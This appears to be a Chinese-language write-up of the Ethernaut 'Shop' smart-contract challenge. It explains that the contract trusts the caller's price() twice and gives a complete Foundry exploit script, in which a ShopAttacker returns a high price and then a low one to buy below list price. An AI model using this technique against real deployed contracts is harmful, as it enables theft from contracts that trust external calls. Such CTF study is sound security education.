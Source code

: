 # Level 21 - Shop
## 題目
[Shop](https://ethernaut.openzeppelin.com/level/0x691eeA9286124c043B82997201E805646b76351a)

### 通關條件
合約可以以任何他們想要的方式操縱其他合約所看到的數據。
基於外部和不受信任的合約邏輯來改變狀態是不安全的。
### 合約內容
``` solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface Buyer {
    function price() external view returns (uint256);
}

contract Shop {
    uint256 public price = 100;
    bool public isSold;

    function buy() public {
        Buyer _buyer = Buyer(msg.sender);

        if (_buyer.price() >= price && !isSold) {
            isSold = true;
            price = _buyer.price();
        }
    }
}
```
## 解題
這題題目沒有說的很具體，簡單來說這是一個購物合約，我們的目標就是用比定價更低的價格購買到商品。那首先看題目合約中執行購買動作的 `buy()`
``` solidity
function buy() public {
    Buyer _buyer = Buyer(msg.sender);

    if (_buyer.price() >= price && !isSold) {
        isSold = true;
        price = _buyer.price();
    }
}
```
12 行可以看到呼叫合約購買時，會先將以呼叫的地址（`msg.sender`）創建一個新的 `Buyer` 合約。接著 15 行判斷 `_buyer` 是否有足夠的金額和商品是否售出，如果判斷通過會將售出狀態更新，以及把價格修改為購買價格（我猜他是用這個數字有沒有比初始價格 100 還要低去判斷是否通關的）。那 15 行在判斷金額的時候會呼叫 `_buyer.price()`，在第 4 行可以看到他是以介面的方式去創建 `Buyer` 合約
``` solidity
interface Buyer {
    function price() external view returns (uint256);
}
```
也就是說，我們只要在自己的地址實作 `Buyer.price()` 合約即可。實作 `price()` 的時候要考慮到最後要把題目合約裡的 `price` 變小（17 行），但是又要通過第 15 行的判斷。這裡使用的技巧跟解 [Level 11 - Elevator](https://ethernaut.openzeppelin.com/level/0x6DcE47e94Fa22F8E2d8A7FDf538602B1F86aBFd2) 一樣，只要讓 `price()` 兩次回傳的數值不一樣即可，15-17 行可以發現 `_buyer.price()` 被呼叫的兩次中間有 `isSold = true` 這句去修改售出狀態，我們可以利用這個變數去判斷現在應該要回傳大於 `price` 還是小於 `price` 的值。
```solidity
function price() external view returns (uint){
    return level21.isSold() == true ? 1: 101; 
}
```
實作完介面要求之後，這題就可以順利過關了，攻擊合約如下：
```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.0;

import "forge-std/Script.sol";
import "../src/Ethernaut Challenge/21_Shop.sol";

contract ExploitScript is Script {

    function run() external {
        vm.startBroadcast();
        ShopAttacker shopAttacker = new ShopAttacker(your_challenge_address);
        shopAttacker.attack();
        vm.stopBroadcast();
    }
}

contract ShopAttacker {
    Shop public level21;

    constructor(address _target) {
        level21 = Shop(_target);
    }

    function attack() public{
        level21.buy();
    }

    function price() external view returns (uint){
        return level21.isSold() == true ? 1: 101; 
    }
}
```